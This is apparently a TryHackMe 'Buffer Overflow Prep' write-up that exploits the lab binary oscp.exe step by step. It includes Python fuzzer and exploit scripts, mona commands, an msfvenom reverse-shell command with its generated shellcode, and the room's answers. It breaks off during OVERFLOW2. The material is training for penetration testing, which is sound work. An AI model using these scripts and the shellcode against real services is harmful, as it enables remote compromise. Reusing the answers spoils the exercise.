

# Buffer Overflow Prep

Practice stack based buffer overflows!

[Buffer Overflow Prep](https://tryhackme.com/room/bufferoverflowprep)

## Topic's

- Reverse Engineering
- Buffer Overflow

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Deploy VM

This room uses a 32-bit Windows 7 VM with Immunity Debugger and Putty preinstalled. Windows Firewall and Defender have both been disabled to make exploit writing easier.

You can log onto the machine using RDP with the following credentials: admin/password

I suggest using the xfreerdp command: `xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP`

If Windows prompts you to choose a location for your network, choose the "Home" option.

On your Desktop there should be a folder called "vulnerable-apps". Inside this folder are a number of binaries which are vulnerable to simple stack based buffer overflows (the type taught on the PWK/OSCP course):

- The SLMail installer.
- The brainpan binary.
- The dostackbufferoverflowgood binary.
- The vulnserver binary.
- A custom written "oscp" binary which contains 10 buffer overflows, each with a different EIP offset and set of badchars.

I have also written a handy guide to exploiting buffer overflows with the help of mona: https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst

Please note that this room does not teach buffer overflows from scratch. It is intended to help OSCP students and also bring to their attention some features of mona which will save time in the OSCP exam.

Thanks go to [@Mojodojo_101](https://twitter.com/Mojodojo_101) for helping create the custom oscp.exe binary for this room!

Deploy the VM and login using RDP.

`No answer needed`

## Task 2 oscp.exe - OVERFLOW1

Right-click the Immunity Debugger icon on the Desktop and choose "Run as administrator".

When Immunity loads, click the open file icon, or choose File -> Open. Navigate to the vulnerable-apps folder on the admin user's desktop, and then the "oscp" folder. Select the "oscp" (oscp.exe) binary and click "Open".

The binary will open in a "paused" state, so click the red play icon or choose Debug -> Run. In a terminal window, the oscp.exe binary should be running, and tells us that it is listening on port 1337.

On your Kali box, connect to port 1337 on MACHINE_IP using netcat: `nc MACHINE_IP 1337`

Type "HELP" and press Enter. Note that there are 10 different OVERFLOW commands numbered 1 - 10. Type "OVERFLOW1 test" and press enter. The response should be "OVERFLOW1 COMPLETE". Terminate the connection.

```
kali@kali:~/CTFs/tryhackme/Buffer Overflow Prep$ nc 192.168.178.56 1337
Welcome to OSCP Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
OVERFLOW1 [value]
OVERFLOW2 [value]
OVERFLOW3 [value]
OVERFLOW4 [value]
OVERFLOW5 [value]
OVERFLOW6 [value]
OVERFLOW7 [value]
OVERFLOW8 [value]
OVERFLOW9 [value]
OVERFLOW10 [value]
EXIT
```

**Mona Configuration**

The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

`!mona config -set workingfolder c:\mona\%p`

**Fuzzing**

Create a file on your Kali box called fuzzer.py with the following contents:

```py
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

Run the fuzzer.py script using python: `python fuzzer.py`

The fuzzer will send increasingly long strings comprised of As (up to 3000). If the fuzzer crashes the server with one of the strings, you should see an error like: "Could not connect to MACHINE_IP:1337". Make a note of the largest number of bytes that were sent.

```
kali@kali:~/CTFs/tryhackme/Buffer Overflow Prep$ python fuzzer.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Fuzzing with 800 bytes
Fuzzing with 900 bytes
Fuzzing with 1000 bytes
Fuzzing with 1100 bytes
Fuzzing with 1200 bytes
Fuzzing with 1300 bytes
Fuzzing with 1400 bytes
Fuzzing with 1500 bytes
Fuzzing with 1600 bytes
Fuzzing with 1700 bytes
Fuzzing with 1800 bytes
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes
Could not connect to 192.168.178.56:1337
```



**Crash Replication & Controlling EIP**

Create another file on your Kali box called exploit.py with the following contents:

```py
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

```
kali@kali:~/CTFs/tryhackme/Buffer Overflow Prep$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9
```

Copy the output and place it into the payload variable of the exploit.py script.

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

On Kali, run the modified exploit.py script: `python exploit.py`

```
kali@kali:~/CTFs/tryhackme/Buffer Overflow Prep$ python exploit.py
Sending evil buffer...
Done!
```


The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

`!mona findmsp -distance 600`

Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).

In this output you should see a line which states:

`EIP contains normal pattern : ... (offset XXXX)`

```
0BADF00D   [+] Examining registers
0BADF00D       EIP contains normal pattern : 0x6f43396e (offset 1978)
0BADF00D       ESP (0x00a9fa18) points at offset 1982 in normal pattern (length 418)
```

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

**Finding Bad Characters**

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

`!mona bytearray -b "\x00"`

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```py
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```

```
kali@kali:~/CTFs/tryhackme/Buffer Overflow Prep$ python badchar.py
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

Update your exploit.py script and set the payload variable to the string of bad chars the script generates.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Make a note of the address to which the ESP register points and use it in the following mona command:

`!mona compare -f C:\mona\oscp\bytearray.bin -a <address>`

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

Not all of these might be badchars! Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

The first badchar in the list should be the null byte (\x00) since we already removed it from the file. Make a note of any others. Generate a new bytearray in mona, specifying these new badchars along with \x00. Then update the payload variable in your exploit.py script and remove the new badchars as well.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

`\x00\x07\x2e\xa0`

**Finding a Jump Point**

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):

!mona jmp -r esp -cpb "\x00"

`!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"`

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

```
Log data
Address    Message
           Immunity Debugger 1.85.0.0 : R'lyeh
           Need support? visit http://forum.immunityinc.com/
           "C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\oscp.exe"

           Console file 'C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\oscp.exe'
           [16:45:37] New process with ID 000015F8 created
004012D0   Main thread with ID 0000155C created
77C70D90   New thread with ID 00000144 created
77C70D90   New thread with ID 00001AA0 created
00400000   Modules C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\oscp.exe
62500000   Modules C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\essfunc.dll
75AE0000   Modules C:\Windows\System32\KERNELBASE.dll
75DA0000   Modules C:\Windows\System32\msvcrt.dll
76E80000   Modules C:\Windows\System32\KERNEL32.DLL
772F0000   Modules C:\Windows\System32\WS2_32.dll
77A70000   Modules C:\Windows\System32\RPCRT4.dll
77C20000   Modules C:\Windows\SYSTEM32\ntdll.dll
004012D0   [16:45:38] Program entry point
           [16:46:37] Thread 00000144 terminated, exit code 0
           [16:46:37] Thread 00001AA0 terminated, exit code 0
00401973   New thread with ID 00000784 created
42424242   [16:47:17] Access violation when executing [42424242]
0BADF00D   [+] Command used:
0BADF00D   !mona jmp -r esp -cpb "\x00\x07\x2e\xa0"

           ---------- Mona command started on 2020-11-19 16:47:22 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D       - Bad char filter will be applied to pointers : "\x00\x07\x2e\xa0"
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 2 modules
0BADF00D       - Querying module essfunc.dll
750A0000   Modules C:\Windows\system32\mswsock.dll
0BADF00D       - Querying module oscp.exe
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 9
0BADF00D   [+] Results :
625011AF     0x625011af : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\essfunc.dll)
625011BB     0x625011bb : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\essfunc.dll)
625011C7     0x625011c7 : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\essfunc.dll)
625011D3     0x625011d3 : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\essfunc.dll)
625011DF     0x625011df : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\essfunc.dll)
625011EB     0x625011eb : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\essfunc.dll)
625011F7     0x625011f7 : jmp esp |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\essfunc.dll)
62501203     0x62501203 : jmp esp | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\essfunc.dll)
62501205     0x62501205 : jmp esp | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Users\Admin\Desktop\Buffer Overflow Prep\oscp\essfunc.dll)
0BADF00D       Found a total of 9 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:00:05.802000
```

`625011AF`

**Generate Payload**

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py`

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

```
buf =  b""
buf += b"\xbd\x85\x24\xdf\x95\xd9\xe8\xd9\x74\x24\xf4\x5f\x31"
buf += b"\xc9\xb1\x52\x83\xc7\x04\x31\x6f\x0e\x03\xea\x2a\x3d"
buf += b"\x60\x08\xda\x43\x8b\xf0\x1b\x24\x05\x15\x2a\x64\x71"
buf += b"\x5e\x1d\x54\xf1\x32\x92\x1f\x57\xa6\x21\x6d\x70\xc9"
buf += b"\x82\xd8\xa6\xe4\x13\x70\x9a\x67\x90\x8b\xcf\x47\xa9"
buf += b"\x43\x02\x86\xee\xbe\xef\xda\xa7\xb5\x42\xca\xcc\x80"
buf += b"\x5e\x61\x9e\x05\xe7\x96\x57\x27\xc6\x09\xe3\x7e\xc8"
buf += b"\xa8\x20\x0b\x41\xb2\x25\x36\x1b\x49\x9d\xcc\x9a\x9b"
buf += b"\xef\x2d\x30\xe2\xdf\xdf\x48\x23\xe7\x3f\x3f\x5d\x1b"
buf += b"\xbd\x38\x9a\x61\x19\xcc\x38\xc1\xea\x76\xe4\xf3\x3f"
buf += b"\xe0\x6f\xff\xf4\x66\x37\x1c\x0a\xaa\x4c\x18\x87\x4d"
buf += b"\x82\xa8\xd3\x69\x06\xf0\x80\x10\x1f\x5c\x66\x2c\x7f"
buf += b"\x3f\xd7\x88\xf4\xd2\x0c\xa1\x57\xbb\xe1\x88\x67\x3b"
buf += b"\x6e\x9a\x14\x09\x31\x30\xb2\x21\xba\x9e\x45\x45\x91"
buf += b"\x67\xd9\xb8\x1a\x98\xf0\x7e\x4e\xc8\x6a\x56\xef\x83"
buf += b"\x6a\x57\x3a\x03\x3a\xf7\x95\xe4\xea\xb7\x45\x8d\xe0"
buf += b"\x37\xb9\xad\x0b\x92\xd2\x44\xf6\x75\x1d\x30\x4a\xbc"
buf += b"\xf5\x43\xaa\xae\x59\xcd\x4c\xba\x71\x9b\xc7\x53\xeb"
buf += b"\x86\x93\xc2\xf4\x1c\xde\xc5\x7f\x93\x1f\x8b\x77\xde"
buf += b"\x33\x7c\x78\x95\x69\x2b\x87\x03\x05\xb7\x1a\xc8\xd5"
buf += b"\xbe\x06\x47\x82\x97\xf9\x9e\x46\x0a\xa3\x08\x74\xd7"
buf += b"\x35\x72\x3c\x0c\x86\x7d\xbd\xc1\xb2\x59\xad\x1f\x3a"
buf += b"\xe6\x99\xcf\x6d\xb0\x77\xb6\xc7\x72\x21\x60\xbb\xdc"
buf += b"\xa5\xf5\xf7\xde\xb3\xf9\xdd\xa8\x5b\x4b\x88\xec\x64"
buf += b"\x64\x5c\xf9\x1d\x98\xfc\x06\xf4\x18\x1c\xe5\xdc\x54"
buf += b"\xb5\xb0\xb5\xd4\xd8\x42\x60\x1a\xe5\xc0\x80\xe3\x12"
buf += b"\xd8\xe1\xe6\x5f\x5e\x1a\x9b\xf0\x0b\x1c\x08\xf0\x19"
```

Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

`padding = "\x90" * 16`

**Exploit!**

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn't change it).

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

What is the EIP offset for OVERFLOW1?

`1978`

In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW1?

`\x00\x07\x2e\xa0`

## Task 3 oscp.exe - OVERFLOW2

Repeat the steps outlined in Task 2 but for the OVERFLOW2 command.

What is the EIP offset for OVERFLOW2?

```py
import socket, time, sys

ip = "192.168.178.56"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW2 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

```
kali@kali:~/CTFs/tryhackme/Buffer Overflow Prep$ python fuzzer.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Fuzzing with 300 bytes
Fuzzing with 400 bytes
Fuzzing with 500 bytes
Fuzzing with 600 bytes
Fuzzing with 700 bytes
Could not connect to 192.168.178.56:1337
```

```py
import socket

ip = "192.168.178.56"
port = 1337

prefix = "OVERFLOW2 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2B"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

```
kali@kali:~/CTFs/tryhackme/Buffer Overflow Prep$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1300
